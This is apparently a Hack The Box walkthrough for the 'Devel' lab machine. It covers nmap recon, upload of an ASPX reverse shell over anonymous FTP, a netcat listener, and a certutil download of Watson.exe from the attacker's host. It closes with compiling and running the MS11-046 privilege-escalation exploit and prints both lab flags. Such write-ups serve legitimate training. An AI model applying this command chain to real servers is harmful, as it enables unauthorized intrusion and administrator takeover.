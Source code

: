 ### IP
`10.10.10.5`

# Recon

### nmap
`nmap -sC -sV 10.10.10.5 -oN Devel.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-25 21:55 EST
Nmap scan report for 10.10.10.5
Host is up (0.052s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.37 seconds
```
* We have ftp with anonymous login
	* Connecting to it with `ftp 10.10.10.5` shows us that its pretty much only the website's home directory (which looks pretty empty)
		* There's pretty much no reason to do a directory scan because of this
	* However, we can upload files to this webserver (and then execute them if there is code uploaded)
* There's a website running on http

# Exploitation

* Because we can upload files to the ftp server, which also happens to be the location of the website, we can upload code and execute it from the website
* The msfvenom reverse shell wasn't working for me, so I used [this](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) one by @borjmz

* Just in case, I uploaded a file with a text format by writing `put pay.txt` and then renamed it to aspx with `rename pay.txt pay.aspx`
* We can set up a listener locally with `nc -lvnp 1337`
* Then to execute the code, simply go to `10.10.10.5/pay.aspx`

* We get a session, but don't have permission to go to the user directories
* Typing `systeminfo` outputs the following:
```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          29/11/2020, 10:41:34 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 729 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.531 MB
Virtual Memory: In Use:    516 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```
* I stored this to a file called `sysinfo.txt`


* To get exploit suggestions, I used the Windows Exploit Suggester:
	* Update the database with `python windows-exploit-suggester.py --update`
	* Run the code with `python windows-exploit-suggester.py -d 2020-11-25-mssb.xls -i sysInfo.txt`
* I got the following output:
```
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
* Unfortunately none of these worked, so I resorted to [Watson](https://github.com/rasta-mouse/Watson) instead to get something a bit more accurate (since it runs locally)
   * I compiled the code by doing `apt-get install mono-complete` and `xbuild Watson/Watson.csproj`
   * I then copied that file to my folder
   * In that same folder, run `python3 -m http.server 80` to start an http server with those files
   * On the windows machine, run `certutil -urlcache -split -f "http://10.10.14.12/Watson.exe"  c:\temp\Watson.exe` to download the file 



* Watson tells us that the machine is vulnerable to a privesc called [MS11-046](https://www.exploit-db.com/exploits/40564)
   * I got the code from here and compiled it to an exe with `i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32`
* Put `MS11-046.exe` in your folder and upload it to the windows machine the same way we uploaded Watson.
* Then run the executable with `MS11-046.exe` and we get Admin!


* We can `cd c:\Users\babis\Desktop` and `more user.txt.txt` to get the user flag: `9ecdd6a3aedf24b41562fea70f4cb3e8`
* We can `cd c:\Users\Administrator\Desktop` and `more root.txt.txt` to get the root flag: `e621a0b5041708797c4fc4728bc72b4b`
